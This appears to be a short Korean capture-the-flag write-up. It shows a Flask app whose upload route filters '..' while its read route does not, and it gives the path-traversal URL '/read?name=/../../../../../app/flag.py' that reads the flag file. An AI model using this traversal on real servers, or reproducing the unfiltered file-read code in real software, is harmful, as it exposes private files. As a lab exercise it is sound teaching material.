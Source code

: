 @APP.route('/upload', methods=['GET', 'POST'])
def upload_memo():
    if request.method == 'POST':
        filename = request.form.get('filename')
        content = request.form.get('content').encode('utf-8')

        if filename.find('..') != -1:
            return render_template('upload_result.html', data='bad characters,,')

        with open(f'{UPLOAD_DIR}/{filename}', 'wb') as f:
            f.write(content)

        return redirect('/')

    return render_template('upload.html')


@APP.route('/read')
def read_memo():
    error = False
    data = b''

    filename = request.args.get('name', '')
    
문제의 구성 자체는 매우 간단했다. 
upload도 있고 read도 있는데 upload에 자세히 보면 ..을 필터링해서 상위 디렉토리로 가는 것을 못하게 방지해두었다. 
그러나 read 상에는 별다른 필터링이 없었으므로 
/read?name=/../../../../../app/flag.py
이렇게만 해주어도 원하는 플래그를 얻을 수 있다. 
